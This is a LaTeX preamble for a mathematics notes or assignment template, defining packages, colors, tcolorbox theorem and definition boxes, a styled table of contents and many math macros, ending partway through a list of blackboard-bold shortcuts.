\documentclass[11pt]{report}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% PACKAGE IMPORTS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\usepackage[tmargin=2cm,rmargin=1in,lmargin=1in,margin=0.85in,bmargin=2cm,footskip=.2in]{geometry}
\usepackage{amsmath,amsfonts,amsthm,amssymb,mathtools}
\usepackage[varbb]{newpxmath}
\usepackage{xfrac}
\usepackage[makeroom]{cancel}
\usepackage{mathtools}
\usepackage{bookmark}
\usepackage{enumitem}
\usepackage{hyperref,theoremref}
\hypersetup{
	pdftitle={Assignment},
	colorlinks=true, linkcolor=doc!90,
	bookmarksnumbered=true,
	bookmarksopen=true
}
\usepackage[most,many,breakable]{tcolorbox}
\usepackage{xcolor}
\usepackage{varwidth}
\usepackage{varwidth}
\usepackage{etoolbox}
%\usepackage{authblk}
\usepackage{nameref}
\usepackage{multicol,array}
\usepackage{tikz-cd}
\usepackage[ruled,vlined,linesnumbered]{algorithm2e}
\usepackage{comment} % enables the use of multi-line comments (\ifx \fi) 
\usepackage{import}
\usepackage{xifthen}
\usepackage{pdfpages}
\usepackage{transparent}

\newcommand\mycommfont[1]{\footnotesize\ttfamily\textcolor{blue}{#1}}
\SetCommentSty{mycommfont}
\newcommand{\incfig}[1]{%
    \def\svgwidth{\columnwidth}
    \import{./figures/}{#1.pdf_tex}
}

\usepackage{tikzsymbols}
\renewcommand\qedsymbol{$\Laughey$}


%\usepackage{import}
%\usepackage{xifthen}
%\usepackage{pdfpages}
%\usepackage{transparent}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% SELF MADE COLORS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%



\definecolor{myg}{RGB}{56, 140, 70}
\definecolor{myb}{RGB}{45, 111, 177}
\definecolor{myr}{RGB}{199, 68, 64}
\definecolor{mytheorembg}{HTML}{F2F2F9}
\definecolor{mytheoremfr}{HTML}{00007B}
\definecolor{mylenmabg}{HTML}{FFFAF8}
\definecolor{mylenmafr}{HTML}{983b0f}
\definecolor{mypropbg}{HTML}{f2fbfc}
\definecolor{mypropfr}{HTML}{191971}
\definecolor{myexamplebg}{HTML}{F2FBF8}
\definecolor{myexamplefr}{HTML}{88D6D1}
\definecolor{myexampleti}{HTML}{2A7F7F}
\definecolor{mydefinitbg}{HTML}{E5E5FF}
\definecolor{mydefinitfr}{HTML}{3F3FA3}
\definecolor{notesgreen}{RGB}{0,162,0}
\definecolor{myp}{RGB}{197, 92, 212}
\definecolor{mygr}{HTML}{2C3338}
\definecolor{myred}{RGB}{127,0,0}
\definecolor{myyellow}{RGB}{169,121,69}
\definecolor{myexercisebg}{HTML}{F2FBF8}
\definecolor{myexercisefg}{HTML}{88D6D1}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% TCOLORBOX SETUPS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\setlength{\parindent}{1cm}
%================================
% THEOREM BOX
%================================

\tcbuselibrary{theorems,skins,hooks}
\newtcbtheorem[number within=section]{Theorem}{Theorem}
{%
	enhanced,
	breakable,
	colback = mytheorembg,
	frame hidden,
	boxrule = 0sp,
	borderline west = {2pt}{0pt}{mytheoremfr},
	sharp corners,
	detach title,
	before upper = \tcbtitle\par\smallskip,
	coltitle = mytheoremfr,
	fonttitle = \bfseries\sffamily,
	description font = \mdseries,
	separator sign none,
	segmentation style={solid, mytheoremfr},
}
{th}

\tcbuselibrary{theorems,skins,hooks}
\newtcbtheorem[number within=chapter]{theorem}{Theorem}
{%
	enhanced,
	breakable,
	colback = mytheorembg,
	frame hidden,
	boxrule = 0sp,
	borderline west = {2pt}{0pt}{mytheoremfr},
	sharp corners,
	detach title,
	before upper = \tcbtitle\par\smallskip,
	coltitle = mytheoremfr,
	fonttitle = \bfseries\sffamily,
	description font = \mdseries,
	separator sign none,
	segmentation style={solid, mytheoremfr},
}
{th}


\tcbuselibrary{theorems,skins,hooks}
\newtcolorbox{Theoremcon}
{%
	enhanced
	,breakable
	,colback = mytheorembg
	,frame hidden
	,boxrule = 0sp
	,borderline west = {2pt}{0pt}{mytheoremfr}
	,sharp corners
	,description font = \mdseries
	,separator sign none
}

%================================
% Corollery
%================================
\tcbuselibrary{theorems,skins,hooks}
\newtcbtheorem[number within=section]{Corollary}{Corollary}
{%
	enhanced
	,breakable
	,colback = myp!10
	,frame hidden
	,boxrule = 0sp
	,borderline west = {2pt}{0pt}{myp!85!black}
	,sharp corners
	,detach title
	,before upper = \tcbtitle\par\smallskip
	,coltitle = myp!85!black
	,fonttitle = \bfseries\sffamily
	,description font = \mdseries
	,separator sign none
	,segmentation style={solid, myp!85!black}
}
{th}
\tcbuselibrary{theorems,skins,hooks}
\newtcbtheorem[number within=chapter]{corollary}{Corollary}
{%
	enhanced
	,breakable
	,colback = myp!10
	,frame hidden
	,boxrule = 0sp
	,borderline west = {2pt}{0pt}{myp!85!black}
	,sharp corners
	,detach title
	,before upper = \tcbtitle\par\smallskip
	,coltitle = myp!85!black
	,fonttitle = \bfseries\sffamily
	,description font = \mdseries
	,separator sign none
	,segmentation style={solid, myp!85!black}
}
{th}


%================================
% LENMA
%================================

\tcbuselibrary{theorems,skins,hooks}
\newtcbtheorem[number within=section]{Lenma}{Lenma}
{%
	enhanced,
	breakable,
	colback = mylenmabg,
	frame hidden,
	boxrule = 0sp,
	borderline west = {2pt}{0pt}{mylenmafr},
	sharp corners,
	detach title,
	before upper = \tcbtitle\par\smallskip,
	coltitle = mylenmafr,
	fonttitle = \bfseries\sffamily,
	description font = \mdseries,
	separator sign none,
	segmentation style={solid, mylenmafr},
}
{th}

\tcbuselibrary{theorems,skins,hooks}
\newtcbtheorem[number within=chapter]{lenma}{Lenma}
{%
	enhanced,
	breakable,
	colback = mylenmabg,
	frame hidden,
	boxrule = 0sp,
	borderline west = {2pt}{0pt}{mylenmafr},
	sharp corners,
	detach title,
	before upper = \tcbtitle\par\smallskip,
	coltitle = mylenmafr,
	fonttitle = \bfseries\sffamily,
	description font = \mdseries,
	separator sign none,
	segmentation style={solid, mylenmafr},
}
{th}


%================================
% PROPOSITION
%================================

\tcbuselibrary{theorems,skins,hooks}
\newtcbtheorem[number within=section]{Prop}{Proposition}
{%
	enhanced,
	breakable,
	colback = mypropbg,
	frame hidden,
	boxrule = 0sp,
	borderline west = {2pt}{0pt}{mypropfr},
	sharp corners,
	detach title,
	before upper = \tcbtitle\par\smallskip,
	coltitle = mypropfr,
	fonttitle = \bfseries\sffamily,
	description font = \mdseries,
	separator sign none,
	segmentation style={solid, mypropfr},
}
{th}

\tcbuselibrary{theorems,skins,hooks}
\newtcbtheorem[number within=chapter]{prop}{Proposition}
{%
	enhanced,
	breakable,
	colback = mypropbg,
	frame hidden,
	boxrule = 0sp,
	borderline west = {2pt}{0pt}{mypropfr},
	sharp corners,
	detach title,
	before upper = \tcbtitle\par\smallskip,
	coltitle = mypropfr,
	fonttitle = \bfseries\sffamily,
	description font = \mdseries,
	separator sign none,
	segmentation style={solid, mypropfr},
}
{th}


%================================
% CLAIM
%================================

\tcbuselibrary{theorems,skins,hooks}
\newtcbtheorem[number within=section]{claim}{Claim}
{%
	enhanced
	,breakable
	,colback = myg!10
	,frame hidden
	,boxrule = 0sp
	,borderline west = {2pt}{0pt}{myg}
	,sharp corners
	,detach title
	,before upper = \tcbtitle\par\smallskip
	,coltitle = myg!85!black
	,fonttitle = \bfseries\sffamily
	,description font = \mdseries
	,separator sign none
	,segmentation style={solid, myg!85!black}
}
{th}



%================================
% Exercise
%================================

\tcbuselibrary{theorems,skins,hooks}
\newtcbtheorem[number within=section]{Exercise}{Exercise}
{%
	enhanced,
	breakable,
	colback = myexercisebg,
	frame hidden,
	boxrule = 0sp,
	borderline west = {2pt}{0pt}{myexercisefg},
	sharp corners,
	detach title,
	before upper = \tcbtitle\par\smallskip,
	coltitle = myexercisefg,
	fonttitle = \bfseries\sffamily,
	description font = \mdseries,
	separator sign none,
	segmentation style={solid, myexercisefg},
}
{th}

\tcbuselibrary{theorems,skins,hooks}
\newtcbtheorem[number within=chapter]{exercise}{Exercise}
{%
	enhanced,
	breakable,
	colback = myexercisebg,
	frame hidden,
	boxrule = 0sp,
	borderline west = {2pt}{0pt}{myexercisefg},
	sharp corners,
	detach title,
	before upper = \tcbtitle\par\smallskip,
	coltitle = myexercisefg,
	fonttitle = \bfseries\sffamily,
	description font = \mdseries,
	separator sign none,
	segmentation style={solid, myexercisefg},
}
{th}

%================================
% EXAMPLE BOX
%================================

\newtcbtheorem[number within=section]{Example}{Example}
{%
	colback = myexamplebg
	,breakable
	,colframe = myexamplefr
	,coltitle = myexampleti
	,boxrule = 1pt
	,sharp corners
	,detach title
	,before upper=\tcbtitle\par\smallskip
	,fonttitle = \bfseries
	,description font = \mdseries
	,separator sign none
	,description delimiters parenthesis
}
{ex}

\newtcbtheorem[number within=chapter]{example}{Example}
{%
	colback = myexamplebg
	,breakable
	,colframe = myexamplefr
	,coltitle = myexampleti
	,boxrule = 1pt
	,sharp corners
	,detach title
	,before upper=\tcbtitle\par\smallskip
	,fonttitle = \bfseries
	,description font = \mdseries
	,separator sign none
	,description delimiters parenthesis
}
{ex}

%================================
% DEFINITION BOX
%================================

\newtcbtheorem[number within=section]{Definition}{Definition}{enhanced,
	before skip=2mm,after skip=2mm, colback=red!5,colframe=red!80!black,boxrule=0.5mm,
	attach boxed title to top left={xshift=1cm,yshift*=1mm-\tcboxedtitleheight}, varwidth boxed title*=-3cm,
	boxed title style={frame code={
					\path[fill=tcbcolback]
					([yshift=-1mm,xshift=-1mm]frame.north west)
					arc[start angle=0,end angle=180,radius=1mm]
					([yshift=-1mm,xshift=1mm]frame.north east)
					arc[start angle=180,end angle=0,radius=1mm];
					\path[left color=tcbcolback!60!black,right color=tcbcolback!60!black,
						middle color=tcbcolback!80!black]
					([xshift=-2mm]frame.north west) -- ([xshift=2mm]frame.north east)
					[rounded corners=1mm]-- ([xshift=1mm,yshift=-1mm]frame.north east)
					-- (frame.south east) -- (frame.south west)
					-- ([xshift=-1mm,yshift=-1mm]frame.north west)
					[sharp corners]-- cycle;
				},interior engine=empty,
		},
	fonttitle=\bfseries,
	title={#2},#1}{def}
\newtcbtheorem[number within=chapter]{definition}{Definition}{enhanced,
	before skip=2mm,after skip=2mm, colback=red!5,colframe=red!80!black,boxrule=0.5mm,
	attach boxed title to top left={xshift=1cm,yshift*=1mm-\tcboxedtitleheight}, varwidth boxed title*=-3cm,
	boxed title style={frame code={
					\path[fill=tcbcolback]
					([yshift=-1mm,xshift=-1mm]frame.north west)
					arc[start angle=0,end angle=180,radius=1mm]
					([yshift=-1mm,xshift=1mm]frame.north east)
					arc[start angle=180,end angle=0,radius=1mm];
					\path[left color=tcbcolback!60!black,right color=tcbcolback!60!black,
						middle color=tcbcolback!80!black]
					([xshift=-2mm]frame.north west) -- ([xshift=2mm]frame.north east)
					[rounded corners=1mm]-- ([xshift=1mm,yshift=-1mm]frame.north east)
					-- (frame.south east) -- (frame.south west)
					-- ([xshift=-1mm,yshift=-1mm]frame.north west)
					[sharp corners]-- cycle;
				},interior engine=empty,
		},
	fonttitle=\bfseries,
	title={#2},#1}{def}

%================================
% DEFINITION BOX
%================================
\newtcolorbox{defin}{colback=green!10,enhanced,title=Definition,
	attach boxed title to top left={xshift=-4mm},boxrule=0pt,after skip=1cm,before skip=1cm,right skip=0cm,breakable,fonttitle=\bfseries,toprule=0pt,bottomrule=0pt,rightrule=0pt,leftrule=4pt,arc=0mm,skin=enhancedlast jigsaw,sharp corners,colframe=gree,colbacktitle=gre,boxed title style={
		frame code={ 
			\fill[gre](frame.south west)--(frame.north west)--(frame.north east)--([xshift=3mm]frame.east)--(frame.south east)--cycle;
			\draw[line width=1mm,gre]([xshift=2mm]frame.north east)--([xshift=5mm]frame.east)--([xshift=2mm]frame.south east);
			
			\draw[line width=1mm,gre]([xshift=5mm]frame.north east)--([xshift=8mm]frame.east)--([xshift=5mm]frame.south east);
			\fill[green!40](frame.south west)--+(4mm,-2mm)--+(4mm,2mm)--cycle;
		}
	}
}

%================================
% Solution BOX
%================================

\makeatletter
\newtcbtheorem{question}{Question}{enhanced,
	breakable,
	colback=white,
	colframe=myb!80!black,
	attach boxed title to top left={yshift*=-\tcboxedtitleheight},
	fonttitle=\bfseries,
	title={#2},
	boxed title size=title,
	boxed title style={%
			sharp corners,
			rounded corners=northwest,
			colback=tcbcolframe,
			boxrule=0pt,
		},
	underlay boxed title={%
			\path[fill=tcbcolframe] (title.south west)--(title.south east)
			to[out=0, in=180] ([xshift=5mm]title.east)--
			(title.center-|frame.east)
			[rounded corners=\kvtcb@arc] |-
			(frame.north) -| cycle;
		},
	#1
}{def}
\makeatother

%================================
% SOLUTION BOX
%================================

\makeatletter
\newtcolorbox{solution}{enhanced,
	breakable,
	colback=white,
	colframe=myg!80!black,
	attach boxed title to top left={yshift*=-\tcboxedtitleheight},
	title=Solution,
	boxed title size=title,
	boxed title style={%
			sharp corners,
			rounded corners=northwest,
			colback=tcbcolframe,
			boxrule=0pt,
		},
	underlay boxed title={%
			\path[fill=tcbcolframe] (title.south west)--(title.south east)
			to[out=0, in=180] ([xshift=5mm]title.east)--
			(title.center-|frame.east)
			[rounded corners=\kvtcb@arc] |-
			(frame.north) -| cycle;
		},
}
\makeatother

%================================
% Question BOX
%================================

\makeatletter
\newtcbtheorem{qstion}{Question}{enhanced,
	breakable,
	colback=white,
	colframe=mygr,
	attach boxed title to top left={yshift*=-\tcboxedtitleheight},
	fonttitle=\bfseries,
	title={#2},
	boxed title size=title,
	boxed title style={%
			sharp corners,
			rounded corners=northwest,
			colback=tcbcolframe,
			boxrule=0pt,
		},
	underlay boxed title={%
			\path[fill=tcbcolframe] (title.south west)--(title.south east)
			to[out=0, in=180] ([xshift=5mm]title.east)--
			(title.center-|frame.east)
			[rounded corners=\kvtcb@arc] |-
			(frame.north) -| cycle;
		},
	#1
}{def}
\makeatother

\newtcbtheorem[number within=chapter]{wconc}{Wrong Concept}{
	breakable,
	enhanced,
	colback=white,
	colframe=myr,
	arc=0pt,
	outer arc=0pt,
	fonttitle=\bfseries\sffamily\large,
	colbacktitle=myr,
	attach boxed title to top left={},
	boxed title style={
			enhanced,
			skin=enhancedfirst jigsaw,
			arc=3pt,
			bottom=0pt,
			interior style={fill=myr}
		},
	#1
}{def}



%================================
% NOTE BOX
%================================

\usetikzlibrary{arrows,calc,shadows.blur}
\tcbuselibrary{skins}
\newtcolorbox{note}[1][]{%
	enhanced jigsaw,
	colback=gray!20!white,%
	colframe=gray!80!black,
	size=small,
	boxrule=1pt,
	title=\textbf{Note:-},
	halign title=flush center,
	coltitle=black,
	breakable,
	drop shadow=black!50!white,
	attach boxed title to top left={xshift=1cm,yshift=-\tcboxedtitleheight/2,yshifttext=-\tcboxedtitleheight/2},
	minipage boxed title=1.5cm,
	boxed title style={%
			colback=white,
			size=fbox,
			boxrule=1pt,
			boxsep=2pt,
			underlay={%
					\coordinate (dotA) at ($(interior.west) + (-0.5pt,0)$);
					\coordinate (dotB) at ($(interior.east) + (0.5pt,0)$);
					\begin{scope}
						\clip (interior.north west) rectangle ([xshift=3ex]interior.east);
						\filldraw [white, blur shadow={shadow opacity=60, shadow yshift=-.75ex}, rounded corners=2pt] (interior.north west) rectangle (interior.south east);
					\end{scope}
					\begin{scope}[gray!80!black]
						\fill (dotA) circle (2pt);
						\fill (dotB) circle (2pt);
					\end{scope}
				},
		},
	#1,
}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% SELF MADE COMMANDS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\newcommand{\thm}[2]{\begin{Theorem}{#1}{}#2\end{Theorem}}
\newcommand{\cor}[2]{\begin{Corollary}{#1}{}#2\end{Corollary}}
\newcommand{\mlenma}[2]{\begin{Lenma}{#1}{}#2\end{Lenma}}
\newcommand{\mprop}[2]{\begin{Prop}{#1}{}#2\end{Prop}}
\newcommand{\clm}[3]{\begin{claim}{#1}{#2}#3\end{claim}}
\newcommand{\wc}[2]{\begin{wconc}{#1}{}\setlength{\parindent}{1cm}#2\end{wconc}}
\newcommand{\thmcon}[1]{\begin{Theoremcon}{#1}\end{Theoremcon}}
\newcommand{\ex}[2]{\begin{Example}{#1}{}#2\end{Example}}
\newcommand{\dfn}[2]{\begin{Definition}[colbacktitle=red!75!black]{#1}{}#2\end{Definition}}
\newcommand{\dfen}[2]{\begin{defin}{#1}{}#2\end{defin}}
\newcommand{\dfnc}[2]{\begin{definition}[colbacktitle=red!75!black]{#1}{}#2\end{definition}}
\newcommand{\qs}[2]{\begin{question}{#1}{}#2\end{question}}
\newcommand{\pf}[2]{\begin{myproof}[#1]#2\end{myproof}}
\newcommand{\nt}[1]{\begin{note}#1\end{note}}

\newcommand*\circled[1]{\tikz[baseline=(char.base)]{
		\node[shape=circle,draw,inner sep=1pt] (char) {#1};}}
\newcommand\getcurrentref[1]{%
	\ifnumequal{\value{#1}}{0}
	{??}
	{\the\value{#1}}%
}
\newcommand{\getCurrentSectionNumber}{\getcurrentref{section}}
\newenvironment{myproof}[1][\proofname]{%
	\proof[\bfseries #1: ]%
}{\endproof}

\newcommand{\mclm}[2]{\begin{myclaim}[#1]#2\end{myclaim}}
\newenvironment{myclaim}[1][\claimname]{\proof[\bfseries #1: ]}{}

\newcounter{mylabelcounter}

\makeatletter
\newcommand{\setword}[2]{%
	\phantomsection
	#1\def\@currentlabel{\unexpanded{#1}}\label{#2}%
}
\makeatother




\tikzset{
	symbol/.style={
			draw=none,
			every to/.append style={
					edge node={node [sloped, allow upside down, auto=false]{$#1$}}}
		}
}


% deliminators
\DeclarePairedDelimiter{\abs}{\lvert}{\rvert}
\DeclarePairedDelimiter{\norm}{\lVert}{\rVert}

\DeclarePairedDelimiter{\ceil}{\lceil}{\rceil}
\DeclarePairedDelimiter{\floor}{\lfloor}{\rfloor}
\DeclarePairedDelimiter{\round}{\lfloor}{\rceil}

\newsavebox\diffdbox
\newcommand{\slantedromand}{{\mathpalette\makesl{d}}}
\newcommand{\makesl}[2]{%
\begingroup
\sbox{\diffdbox}{$\mathsurround=0pt#1\mathrm{#2}$}%
\pdfsave
\pdfsetmatrix{1 0 0.2 1}%
\rlap{\usebox{\diffdbox}}%
\pdfrestore
\hskip\wd\diffdbox
\endgroup
}
\newcommand{\dd}[1][]{\ensuremath{\mathop{}\!\ifstrempty{#1}{%
\slantedromand\@ifnextchar^{\hspace{0.2ex}}{\hspace{0.1ex}}}%
{\slantedromand\hspace{0.2ex}^{#1}}}}
\ProvideDocumentCommand\dv{o m g}{%
  \ensuremath{%
    \IfValueTF{#3}{%
      \IfNoValueTF{#1}{%
        \frac{\dd #2}{\dd #3}%
      }{%
        \frac{\dd^{#1} #2}{\dd #3^{#1}}%
      }%
    }{%
      \IfNoValueTF{#1}{%
        \frac{\dd}{\dd #2}%
      }{%
        \frac{\dd^{#1}}{\dd #2^{#1}}%
      }%
    }%
  }%
}
\providecommand*{\pdv}[3][]{\frac{\partial^{#1}#2}{\partial#3^{#1}}}
%  - others
\DeclareMathOperator{\Lap}{\mathcal{L}}
\DeclareMathOperator{\Var}{Var} % varience
\DeclareMathOperator{\Cov}{Cov} % covarience
\DeclareMathOperator{\E}{E} % expected

% Since the amsthm package isn't loaded

% I prefer the slanted \leq
\let\oldleq\leq % save them in case they're every wanted
\let\oldgeq\geq
\renewcommand{\leq}{\leqslant}
\renewcommand{\geq}{\geqslant}

% % redefine matrix env to allow for alignment, use r as default
% \renewcommand*\env@matrix[1][r]{\hskip -\arraycolsep
%     \let\@ifnextchar\new@ifnextchar
%     \array{*\c@MaxMatrixCols #1}}


%\usepackage{framed}
%\usepackage{titletoc}
%\usepackage{etoolbox}
%\usepackage{lmodern}


%\patchcmd{\tableofcontents}{\contentsname}{\sffamily\contentsname}{}{}

%\renewenvironment{leftbar}
%{\def\FrameCommand{\hspace{6em}%
%		{\color{myyellow}\vrule width 2pt depth 6pt}\hspace{1em}}%
%	\MakeFramed{\parshape 1 0cm \dimexpr\textwidth-6em\relax\FrameRestore}\vskip2pt%
%}
%{\endMakeFramed}

%\titlecontents{chapter}
%[0em]{\vspace*{2\baselineskip}}
%{\parbox{4.5em}{%
%		\hfill\Huge\sffamily\bfseries\color{myred}\thecontentspage}%
%	\vspace*{-2.3\baselineskip}\leftbar\textsc{\small\chaptername~\thecontentslabel}\\\sffamily}
%{}{\endleftbar}
%\titlecontents{section}
%[8.4em]
%{\sffamily\contentslabel{3em}}{}{}
%{\hspace{0.5em}\nobreak\itshape\color{myred}\contentspage}
%\titlecontents{subsection}
%[8.4em]
%{\sffamily\contentslabel{3em}}{}{}  
%{\hspace{0.5em}\nobreak\itshape\color{myred}\contentspage}



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% TABLE OF CONTENTS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\usepackage{tikz}
\definecolor{doc}{RGB}{0,60,110}
\usepackage{titletoc}
\contentsmargin{0cm}
\titlecontents{chapter}[3.7pc]
{\addvspace{30pt}%
	\begin{tikzpicture}[remember picture, overlay]%
		\draw[fill=doc!60,draw=doc!60] (-7,-.1) rectangle (-0.9,.5);%
		\pgftext[left,x=-3.5cm,y=0.2cm]{\color{white}\Large\sc\bfseries Chapter\ \thecontentslabel};%
	\end{tikzpicture}\color{doc!60}\large\sc\bfseries}%
{}
{}
{\;\titlerule\;\large\sc\bfseries Page \thecontentspage
	\begin{tikzpicture}[remember picture, overlay]
		\draw[fill=doc!60,draw=doc!60] (2pt,0) rectangle (4,0.1pt);
	\end{tikzpicture}}%
\titlecontents{section}[3.7pc]
{\addvspace{2pt}}
{\contentslabel[\thecontentslabel]{2pc}}
{}
{\hfill\small \thecontentspage}
[]
\titlecontents*{subsection}[3.7pc]
{\addvspace{-1pt}\small}
{}
{}
{\ --- \small\thecontentspage}
[ \textbullet\ ][]

\makeatletter
\renewcommand{\tableofcontents}{%
	\chapter*{%
	  \vspace*{-20\p@}%
	  \begin{tikzpicture}[remember picture, overlay]%
		  \pgftext[right,x=15cm,y=0.2cm]{\color{doc!60}\Huge\sc\bfseries \contentsname};%
		  \draw[fill=doc!60,draw=doc!60] (13,-.75) rectangle (20,1);%
		  \clip (13,-.75) rectangle (20,1);
		  \pgftext[right,x=15cm,y=0.2cm]{\color{white}\Huge\sc\bfseries \contentsname};%
	  \end{tikzpicture}}%
	\@starttoc{toc}}
\makeatother


%From M275 "Topology" at SJSU
\newcommand{\id}{\mathrm{id}}
\newcommand{\taking}[1]{\xrightarrow{#1}}
\newcommand{\inv}{^{-1}}

%From M170 "Introduction to Graph Theory" at SJSU
\DeclareMathOperator{\diam}{diam}
\DeclareMathOperator{\ord}{ord}
\newcommand{\defeq}{\overset{\mathrm{def}}{=}}

%From the USAMO .tex files
\newcommand{\ts}{\textsuperscript}
\newcommand{\dg}{^\circ}
\newcommand{\ii}{\item}

% % From Math 55 and Math 145 at Harvard
% \newenvironment{subproof}[1][Proof]{%
% \begin{proof}[#1] \renewcommand{\qedsymbol}{$\blacksquare$}}%
% {\end{proof}}

\newcommand{\liff}{\leftrightarrow}
\newcommand{\lthen}{\rightarrow}
\newcommand{\opname}{\operatorname}
\newcommand{\surjto}{\twoheadrightarrow}
\newcommand{\injto}{\hookrightarrow}
\newcommand{\On}{\mathrm{On}} % ordinals
\DeclareMathOperator{\img}{im} % Image
\DeclareMathOperator{\Img}{Im} % Image
\DeclareMathOperator{\coker}{coker} % Cokernel
\DeclareMathOperator{\Coker}{Coker} % Cokernel
\DeclareMathOperator{\Ker}{Ker} % Kernel
\DeclareMathOperator{\rank}{rank}
\DeclareMathOperator{\Spec}{Spec} % spectrum
\DeclareMathOperator{\Tr}{Tr} % trace
\DeclareMathOperator{\pr}{pr} % projection
\DeclareMathOperator{\ext}{ext} % extension
\DeclareMathOperator{\pred}{pred} % predecessor
\DeclareMathOperator{\dom}{dom} % domain
\DeclareMathOperator{\ran}{ran} % range
\DeclareMathOperator{\Hom}{Hom} % homomorphism
\DeclareMathOperator{\Mor}{Mor} % morphisms
\DeclareMathOperator{\End}{End} % endomorphism

\newcommand{\eps}{\epsilon}
\newcommand{\veps}{\varepsilon}
\newcommand{\ol}{\overline}
\newcommand{\ul}{\underline}
\newcommand{\wt}{\widetilde}
\newcommand{\wh}{\widehat}
\newcommand{\vocab}[1]{\textbf{\color{blue} #1}}
\providecommand{\half}{\frac{1}{2}}
\newcommand{\dang}{\measuredangle} %% Directed angle
\newcommand{\ray}[1]{\overrightarrow{#1}}
\newcommand{\seg}[1]{\overline{#1}}
\newcommand{\arc}[1]{\wideparen{#1}}
\DeclareMathOperator{\cis}{cis}
\DeclareMathOperator*{\lcm}{lcm}
\DeclareMathOperator*{\argmin}{arg min}
\DeclareMathOperator*{\argmax}{arg max}
\newcommand{\cycsum}{\sum_{\mathrm{cyc}}}
\newcommand{\symsum}{\sum_{\mathrm{sym}}}
\newcommand{\cycprod}{\prod_{\mathrm{cyc}}}
\newcommand{\symprod}{\prod_{\mathrm{sym}}}
\newcommand{\Qed}{\begin{flushright}\qed\end{flushright}}
\newcommand{\parinn}{\setlength{\parindent}{1cm}}
\newcommand{\parinf}{\setlength{\parindent}{0cm}}
% \newcommand{\norm}{\|\cdot\|}
\newcommand{\inorm}{\norm_{\infty}}
\newcommand{\opensets}{\{V_{\alpha}\}_{\alpha\in I}}
\newcommand{\oset}{V_{\alpha}}
\newcommand{\opset}[1]{V_{\alpha_{#1}}}
\newcommand{\lub}{\text{lub}}
\newcommand{\del}[2]{\frac{\partial #1}{\partial #2}}
\newcommand{\Del}[3]{\frac{\partial^{#1} #2}{\partial^{#1} #3}}
\newcommand{\deld}[2]{\dfrac{\partial #1}{\partial #2}}
\newcommand{\Deld}[3]{\dfrac{\partial^{#1} #2}{\partial^{#1} #3}}
\newcommand{\lm}{\lambda}
\newcommand{\uin}{\mathbin{\rotatebox[origin=c]{90}{$\in$}}}
\newcommand{\usubset}{\mathbin{\rotatebox[origin=c]{90}{$\subset$}}}
\newcommand{\lt}{\left}
\newcommand{\rt}{\right}
\newcommand{\bs}[1]{\boldsymbol{#1}}
\newcommand{\exs}{\exists}
\newcommand{\st}{\strut}
\newcommand{\dps}[1]{\displaystyle{#1}}

\newcommand{\sol}{\setlength{\parindent}{0cm}\textbf{\textit{Solution:}}\setlength{\parindent}{1cm} }
\newcommand{\solve}[1]{\setlength{\parindent}{0cm}\textbf{\textit{Solution: }}\setlength{\parindent}{1cm}#1 \Qed}

% Things Lie
\newcommand{\kb}{\mathfrak b}
\newcommand{\kg}{\mathfrak g}
\newcommand{\kh}{\mathfrak h}
\newcommand{\kn}{\mathfrak n}
\newcommand{\ku}{\mathfrak u}
\newcommand{\kz}{\mathfrak z}
\DeclareMathOperator{\Ext}{Ext} % Ext functor
\DeclareMathOperator{\Tor}{Tor} % Tor functor
\newcommand{\gl}{\opname{\mathfrak{gl}}} % frak gl group
\renewcommand{\sl}{\opname{\mathfrak{sl}}} % frak sl group chktex 6

% More script letters etc.
\newcommand{\SA}{\mathcal A}
\newcommand{\SB}{\mathcal B}
\newcommand{\SC}{\mathcal C}
\newcommand{\SF}{\mathcal F}
\newcommand{\SG}{\mathcal G}
\newcommand{\SH}{\mathcal H}
\newcommand{\OO}{\mathcal O}

\newcommand{\SCA}{\mathscr A}
\newcommand{\SCB}{\mathscr B}
\newcommand{\SCC}{\mathscr C}
\newcommand{\SCD}{\mathscr D}
\newcommand{\SCE}{\mathscr E}
\newcommand{\SCF}{\mathscr F}
\newcommand{\SCG}{\mathscr G}
\newcommand{\SCH}{\mathscr H}

% Mathfrak primes
\newcommand{\km}{\mathfrak m}
\newcommand{\kp}{\mathfrak p}
\newcommand{\kq}{\mathfrak q}

% number sets
\newcommand{\RR}[1][]{\ensuremath{\ifstrempty{#1}{\mathbb{R}}{\mathbb{R}^{#1}}}}
\newcommand{\NN}[1][]{\ensuremath{\ifstrempty{#1}{\mathbb{N}}{\mathbb{N}^{#1}}}}
\newcommand{\ZZ}[1][]{\ensuremath{\ifstrempty{#1}{\mathbb{Z}}{\mathbb{Z}^{#1}}}}
\newcommand{\QQ}[1][]{\ensuremath{\ifstrempty{#1}{\mathbb{Q}}{\mathbb{Q}^{#1}}}}
\newcommand{\CC}[1][]{\ensuremath{\ifstrempty{#1}{\mathbb{C}}{\mathbb{C}^{#1}}}}
\newcommand{\PP}[1][]{\ensuremath{\ifstrempty{#1}{\mathbb{P}}{\mathbb{P}^{#1}}}}
\newcommand{\HH}[1][]{\ensuremath{\ifstrempty{#1}{\mathbb{H}}{\mathbb{H}^{#1}}}}
\newcommand{\FF}[1][]{\ensuremath{\ifstrempty{#1}{\mathbb{F}}{\mathbb{F}^{#1}}}}
% expected value
\newcommand{\EE}{\ensuremath{\mathbb{E}}}
\newcommand{\charin}{\text{ char }}
\DeclareMathOperator{\sign}{sign}
\DeclareMathOperator{\Aut}{Aut}
\DeclareMathOperator{\Inn}{Inn}
\DeclareMathOperator{\Syl}{Syl}
\DeclareMathOperator{\Gal}{Gal}
\DeclareMathOperator{\GL}{GL} % General linear group
\DeclareMathOperator{\SL}{SL} % Special linear group

%---------------------------------------
% BlackBoard Math Fonts :-
%---------------------------------------

%Captital Letters
\newcommand{\bbA}{\mathbb{A}}	\newcommand{\bbB}{\mathbb{B}}
\newcommand{\bbC}{\mathbb{C}}	\newcommand{\bbD}{\mathbb{D}}
\newcommand{\bbE}{\mathbb{E}}	\newcommand{\bbF}{\mathbb{F}}
\newcommand{\bbG}{\mathbb{G}}	\newcommand{\bbH}{\mathbb{H}}
